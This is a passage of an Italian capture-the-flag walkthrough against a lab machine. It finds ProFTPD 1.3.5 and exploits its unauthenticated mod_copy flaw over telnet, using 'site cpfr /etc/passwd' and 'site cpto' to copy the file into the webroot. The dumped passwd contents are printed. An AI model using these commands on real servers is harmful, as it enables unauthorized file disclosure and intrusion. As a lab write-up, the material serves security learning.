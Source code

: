 ![Schermata da 2019-10-03 12-33-56](https://user-images.githubusercontent.com/54471416/66257193-c8e8f680-e763-11e9-9fb0-ced96e4f8b37.png)

Verifichiamo se e' cambiato qualcosa tra i servizi esposti :

![Schermata da 2019-10-03 19-12-58](https://user-images.githubusercontent.com/54471416/66257197-d7cfa900-e763-11e9-8182-b32e03c10a5e.png)

Adesso risulta esposta anche la porta 21 diun servizio ftp.
Il servizio che gira e' Proftpd 1.3.5.
Verifichiamo se e' presente qualche vulnerabilita' nota :

![Schermata da 2019-10-04 03-51-23](https://user-images.githubusercontent.com/54471416/66257204-ef0e9680-e763-11e9-80e4-817d4bf8711b.png)

Interessante!Gli ultimi 2 sfruttano una vulnerabilita' del servizio che permette, a utenti non autenticati, la copia di file con livello di accesso legato all'utenza con cui gira il servizio ftpd.
Verifichiamo se sfruttabile.Per poterlo fare abbiamo bisogno di un riferimento ad un percorso scrivibile, ma non solo, per poter esserci utile il percorso dovrebbe essere raggiungibile da un servizio esterno che ci permetterebbe di visualizzare i risultati ottenuti.Nel nostro caso il webserver.
Proviamo a utilizzare il webroot di default  con l'utimo exploit in elenco 36742 :

![Schermata da 2019-10-04 04-27-36](https://user-images.githubusercontent.com/54471416/66257218-254c1600-e764-11e9-982f-37ffac567014.png)

Mmhh...proviamo uno dei path che abbiamo ottenuto in precedenza :

```
root@jigsaw2:~/.ssh# telnet 192.168.1.145 21
Trying 192.168.1.145...
Connected to 192.168.1.145.
Escape character is '^]'.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.1.145]
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /var/www/html/w3lc0m3707h364m3/test.php          
250 Copy successful
```
Bene!
Verifichiamo i risultati dal browser :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
```